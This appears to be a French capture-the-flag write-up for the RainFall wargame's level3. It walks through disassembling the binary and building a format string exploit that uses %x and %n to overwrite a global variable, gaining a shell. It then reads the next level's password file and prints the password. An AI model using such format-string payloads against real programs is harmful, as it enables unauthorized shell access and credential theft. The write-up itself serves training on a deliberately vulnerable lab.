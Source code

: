 
# level3


## description
- Il y a un exécutable **level3**.Lorsqu'on l'exécute, il prends des caractères sur **stdin** puis l'affiche.

## Résolution

Avec gdb on peut voir une fonction **v** dans le main.

    Dump of assembler code for function v:
       0x080484a4 <+0>:     push   %ebp
       0x080484a5 <+1>:     mov    %esp,%ebp
       0x080484a7 <+3>:     sub    $0x218,%esp
       0x080484ad <+9>:     mov    0x8049860,%eax
       0x080484b2 <+14>:    mov    %eax,0x8(%esp)
       0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
       0x080484be <+26>:    lea    -0x208(%ebp),%eax
       0x080484c4 <+32>:    mov    %eax,(%esp)
       0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
       0x080484cc <+40>:    lea    -0x208(%ebp),%eax
       0x080484d2 <+46>:    mov    %eax,(%esp)
       0x080484d5 <+49>:    call   0x8048390 <printf@plt>
       0x080484da <+54>:    mov    0x804988c,%eax
       0x080484df <+59>:    cmp    $0x40,%eax
       0x080484e2 <+62>:    jne    0x8048518 <v+116>
       0x080484e4 <+64>:    mov    0x8049880,%eax
       0x080484e9 <+69>:    mov    %eax,%edx
       0x080484eb <+71>:    mov    $0x8048600,%eax
       0x080484f0 <+76>:    mov    %edx,0xc(%esp)
       0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
       0x080484fc <+88>:    movl   $0x1,0x4(%esp)
       0x08048504 <+96>:    mov    %eax,(%esp)
       0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
       0x0804850c <+104>:   movl   $0x804860d,(%esp)
       0x08048513 <+111>:   call   0x80483c0 <system@plt>
       0x08048518 <+116>:   leave  
       0x08048519 <+117>:   ret    
    End of assembler dump.

On peut voir l'utilisation de **fgets** qui est protégé contre le buffer overflow. Il y a aussi un appel a **printf** qui est sensible au **format string exploit**.


     0x080484da <+54>:    mov    eax,ds:0x804988c
     0x080484df <+59>:    cmp    eax,0x40
Il y a une comparaison entre la variable **m** et **0x40**(64). Si la comparaison réussie alors ca utilise system pour lancer "/bin/sh".

     0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
     0x0804850c <+104>:   movl   $0x804860d,(%esp)
     0x08048513 <+111>:   call   0x80483c0 <system@plt>
Notre objectif va être de manipuler printf pour modifier la valeur de la variable m.

Tout d'abord on va afficher la mémoire jusqu'à ce qu'on atteigne la variable que l'on veux modifier. Avec le format **%x**, on peut  afficher l'adresse sur la stack.

    python -c 'print "aaaa %x %x %x %x %x %x %x %x %x %x"' > /tmp/exploit && cat /tmp/exploit | ./level3

    aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520 25207825 78252078
On vois que notre version est a la **4e** position(61 = a en hexa)
Maintenant, on peut changer l'adresse par l'adresse de la variable m.

    level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"' > /tmp/exploit && cat /tmp/exploit | ./level3
    � 200 b7fd1ac0 b7ff37d0 804988c
L'adresse a bien changé.

Il faut changer la valeur de la variable **m**(qui est a 0 initialement). Pour cela on va utiliser le format **%n**. ca va nous permettre d'écrire un nombre de bytes à l'adresse donnée.

    python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit && cat /tmp/exploit - | ./level3 

On a réussi.

    Wait what?!
    whoami
    level4
    cat /home/user/level4/.pass
    b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
